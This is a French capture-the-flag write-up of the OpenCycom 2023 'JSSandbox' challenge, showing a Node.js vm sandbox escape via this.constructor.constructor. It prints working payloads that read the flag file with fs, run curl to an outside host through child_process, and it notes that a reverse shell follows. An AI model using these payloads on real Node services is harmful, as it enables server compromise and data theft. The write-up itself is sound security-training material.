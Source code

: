 ```yaml
---
title: "JSSandbox"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - JSSandbox - *300 pts*

## Énoncé
J'ai codé un super outil pour que les débutants puissent apprendre à utiliser NodeJS facilement sur Internet, en plus j'ai sandboxé l'exécution pour pas que des petits filous essayent de faire n'importe quoi :)

Je doute quand même de la robustesse de la méthode que j'ai employée, tu peux y jeter un coup d'oeil ?

*le flag se trouve dans le fichier* `/flag`

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution

Une sandbox JavaScript ! Elle me permet de jouer avec JS et d'apprendre à programmer.

La première question que je me pose est : qui ou quoi exécute mon code ? Dans ce cas précis, ça a l'air d'être le serveur qui fait tout, car rien n'est exécuté côté client. Cela veut dire que le serveur exécute le code que je veux, pas mal non ?

![](/images/2023/015/01.png)

Sauf qu'après quelques essais, on se rend compte que cette sandbox est bien limitée : pas d'accès aux modules `fs` ou `child_process`, et surtout, pas possible de `require` des nouveaux modules.

Cela ressemble a une VM JavaScript faite avec le module node `vm`, mais c'est plutôt une bonne nouvelle pour nous, car ce module n'est pas sécurisé du tout.

Commençons par essayer de trouver si un contexte existe avec le keyword `this`.

![](/images/2023/015/02.png)

On nous retourne `[Object object]`, ce qui veut dire que `this` existe bel et bien.

Après quelques recherches sur Internet, je me rends compte qu'il serait possible de sortir du contexte de la VM en utilisant les constructeurs de mon objet `this` : `this.constructor.constructor`. Cela veut dire qu'on peut lui passer une fonction anonyme sous forme de texte, qui sera automatiquement appelée par le constructeur lors de son instanciation. 

Par exemple, on peut faire : `this.constructor.constructor('return 1+1')`

![](/images/2023/015/03.png)

Bingo, on arrive à exécuter du code. Mais ça nous avance à quoi ?
Ce qui compte ici c'est le contexte dans lequel est exécuté notre code. En utilisant les constructeurs, on est en mesure d'échapper le contexte de la VM pour se retrouver dans le contexte global.

On peut maintenant utiliser `require` pour appeler n'importe quelle librairie native ! À nous le flag.

```
this.constructor.constructor("return process.mainModule.require(\'fs\').readFileSync(\'flag\',\'utf-8\')")()
```

![](/images/2023/015/04.png)

Petit bonus, on peut également obtenir une RCE côté système avec le module `child_process`.

```
this.constructor.constructor("return process.mainModule.require(\'child_process\').exec(\'curl http://opencycom.free.beeceptor.com\')")()
```

![](/images/2023/015/05.png)

![](/images/2023/015/06.png)

À partir de là, il est trivial d'obtenir un reverse shell :)

*FLAG : OPC{VM\*\*\*\*\*\*\*\*\*\*}*
